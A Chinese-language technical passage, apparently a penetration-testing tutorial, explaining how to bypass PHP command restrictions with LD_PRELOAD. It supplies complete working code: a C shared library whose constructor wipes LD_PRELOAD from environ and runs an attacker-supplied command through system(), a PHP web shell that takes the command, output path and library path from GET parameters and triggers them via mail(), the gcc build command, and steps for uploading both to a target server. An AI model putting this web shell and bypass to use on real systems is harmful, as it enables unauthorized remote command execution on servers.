 此外，通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 unsetenv("LD_PRELOAD")，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了 unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，我得找一种比 unsetenv() 更直接的删除环境变量的方式。是它，全局变量 extern char** environ！实际上，unsetenv() 就是对 environ 的简单封装实现的环境变量删除功能。
#### C(so)
这个修饰符__attribute__ ((__constructor__)) 只要启动进程便会进行劫持
```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```
#### php
```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");

    echo "<p> <b>output</b>: 
" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```
```shell
gcc -fPIC -shared hack.c -o hack.so
```
分别将动态库hack.so文件，php脚本hack.php上传到服务器中，再访问hack.php脚本文件，并带上参数cmd(待执行的命令)，outpath(结果重定向文件位置),sopath(加载动态链接库的位置)
